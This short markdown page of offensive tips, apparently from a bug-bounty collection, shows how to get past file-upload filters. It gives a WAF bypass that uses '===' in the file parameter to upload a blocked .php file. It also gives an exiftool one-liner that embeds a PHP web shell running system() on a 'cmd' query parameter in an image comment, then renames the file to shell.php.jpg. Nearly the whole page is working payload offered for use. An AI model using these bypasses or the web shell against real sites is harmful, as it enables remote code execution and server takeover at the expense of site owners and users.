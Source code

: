 # Tips

```markdown
WAF bypass Tips by 
@0xInfection
Case: File Upload (.php blocked)

/?file=xx.php    <- Blocked
/?file===xx.php  <- Bypassed

The file got uploaded successfully.
```

[https://pbs.twimg.com/media/EpkPLYXVgAMLhZa?format=jpg&name=medium](https://pbs.twimg.com/media/EpkPLYXVgAMLhZa?format=jpg&name=medium)

```markdown
Bypass File Upload Filtering

In image :

exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' shell.jpg 

mv shell.jpg  shell.php.jpg
```

[https://pbs.twimg.com/media/Eq9dOoaXUAAEE8n?format=jpg&name=900x900](https://pbs.twimg.com/media/Eq9dOoaXUAAEE8n?format=jpg&name=900x900)

